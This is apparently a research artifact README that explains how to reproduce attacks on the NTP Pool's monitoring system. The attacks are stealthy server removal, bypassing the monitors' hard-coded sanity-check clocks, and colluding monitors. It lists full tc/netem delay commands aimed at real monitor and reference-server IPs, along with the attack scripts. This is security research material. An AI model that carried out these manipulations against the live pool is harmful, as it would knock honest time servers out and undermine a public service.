 # NTP_monitor_exp_Eatwatchdog

1. Paper Name : Did the Shark Eat the Watchdog in the NTP Pool? Deceiving the NTP Pool’s Monitoring System

2. Paper Description
This paper shows three ways to experimentally reproduce the vulnerabilities of the NTP Pool monitoring system we have identified. A rough description of each experiment is as follows.

2-1) Stealthy Attack for to make NTP servers disappear from the pool.
Assume that the attacker wants to remove the NTP server from the pool, but does not want to notify the NTP server owner.
An attacker assigns Adaptive one-way-Delay while viewing the NTP server and the score log of the NTP server.
This is to exploit the phenomenon that the score is maintained when a specific NTP server is scored as Offset.
At this time, it is possible to create a phenomenon that does not appear in the NTP Pool without being noticed by the NTP Server owner.

2-2) Bypassing the monitoring station’s Sanity Check and skewing the NTP server’s score.
The Reference Clock for Sanity Check of Monitoring Station is hard-coded.
If an attacker adds one-way-delay to the monitoring station’s local clock and the reference clock for sanity check at the same time, it can violate the sanity check of the monitor server (the server that aggregates and evaluates scores).
The victim monitoring station can then lower the score by evaluating the NTP servers with a skewed offset.

2-3) Malicious consensus of Multi Monitoring stations.
The Beta Site operates a Monitoring System based on Multiple Monitoring Stations.
If this monitoring system is also applied to the official site, it seems good to restrict the subscription conditions of the monitoring station.
If an attacker secures many monitoring station qualifications with more than one account, the monitoring timing can be matched by analyzing the scoring cycle of the NTP server.
In this case, an attacker can take advantage of their monitoring stations to quickly lower the score of the NTP server.
If an attacker intentionally fails the monitoring station’s sanity check, the server’s scoring period can be changed every 2 minutes.

3. Installation Guide

3-1) Software for execution
- tc(Traffic Control)
- nodeJS
- ntpd
- ntppool-monitor : Even if you install this software, you need to obtain an authentication key to run the software. Therefore, Experiment 2 and Experiment 3 should participate in the monitor beta tester or configure the virtual environment through Kubernetes before conducting the experiment.

3-2) Web page for observation of experiment results
web page : https://web.beta.grundclock.com/en/
* The experimenter can check the logs and graphs of the NTP server registered in the NTP Pool, and the activity status of the monitor.

4. Usage
/* All experimental results can be found in the Score log and graph of the Victim NTP server. */

4-1) Experiment 1
* tc command : If you are familiar with the 'tc' command, you can properly categorize the interface or class.

sudo tc qdisc add dev {nw_interface1} root handle 1: prio
sudo tc qdisc add dev {nw_interface1} parent 1:3 handle 30: netem delay 50ms 20ms // 50ms & 20ms is optional value for network delay
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 139.178.70.122 flowid 1:3 // '139.178.70.122' is monitor's IP. You can easily find the monitor IP corresponding to the NTP Pool domain with the 'nslookup' command.

* Node.js command:
node exp1_calcalphabeta.js
// The IP value of the variable "resp_URL" must be changed to continuously check the score of the NTP server being attacked.

* Restore: Delete the tc interface

sudo tc qdisc del dev {nw_interface1} root

4-2) Experiment 2
* Add delay to all outbound traffic of the monitor

sudo tc qdisc add dev {nw_interface1} root netem delay 500ms 20ms

* Add delay only to the top stratum of the monitor

sudo tc qdisc add dev {nw_interface1} root handle 1: prio
sudo tc qdisc add dev {nw_interface1} parent 1:3 handle 30: netem delay 10ms 4ms
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst {upper_stratum_NTP_server_IP} flowid 1:3 // 'upper_stratum_NTP_server_IP' is an NTP server on the upper stratum of the monitor. If the monitor also serves as an NTP server, you can check what the top NTP server is with the 'ntpd' command or the 'ntpdate' command.

* Avoiding Sanity Check : Each IP refers to the IP returned from the domain address that is hard-coded in the monitor source code, and if the domain name is changed or the IP is changed, the IP list to be entered must be changed to suit the experimental environment.

sudo tc qdisc add dev {nw_interface1} root handle 1: prio
sudo tc qdisc add dev {nw_interface1} parent 1:3 handle 30: netem delay 500ms
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 17.253.68.125 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 61.205.120.130 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 17.253.26.125 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 169.229.128.134 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 164.67.62.199 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 17.253.54.253 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 17.253.34.125 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 130.133.1.10 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 193.162.159.194 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 192.36.143.234 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 193.0.0.229 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 17.253.114.125 flowid 1:3
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst 118.220.200.235 flowid 1:3

* Excute script
node exp2_sandm.js
// The IPs stored in the 'beta_NTP_servers' variable are a list of NTP servers found on the beta site and as of July 2022.

* Restore: Delete the tc interface

sudo tc qdisc del dev {nw_interface1} root

4-3) Experiment 3
// In order to reproduce this experiment, it is necessary to be able to control at least two monitors.

* Region 1 Monitor
sudo tc qdisc add dev {nw_interface1} root handle 1: prio
sudo tc qdisc add dev {nw_interface1} parent 1:3 handle 30: netem delay 500ms
sudo tc filter add dev {nw_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst {Victim NTP Server} flowid 1:3

* Region 2 Monitor
sudo tc qdisc add dev {nw2_interface1} root handle 1: prio
sudo tc qdisc add dev {nw2_interface1} parent 1:3 handle 30: netem delay 500ms
sudo tc filter add dev {nw2_interface1} protocol ip parent 1:0 prio 3 u32 match ip dst {Victim NTP Server} flowid 1:3

* Delete the tc interface
** Region 1 Monitor
sudo tc qdisc del dev {nw_interface1} root
** Region 2 Monitor
sudo tc qdisc del dev {nw2_interface1} root

5. Development Environment
5-1) System Specifications
The Xeon server desktop (Intel® Xeon® CPU ES-2620 v4 2.10 GHz 16 cores, 256 GB RAM),
Ubuntu 20.04 Server

6. Contributing
Improved code and bug reporting are welcome. You can contribute directly to GitHub, or contact the code author by mail.
Code Author Email:
1) jgsong@isslab.korea.ac.kr
2) newshok@naver.com

7. License


8. Copyright
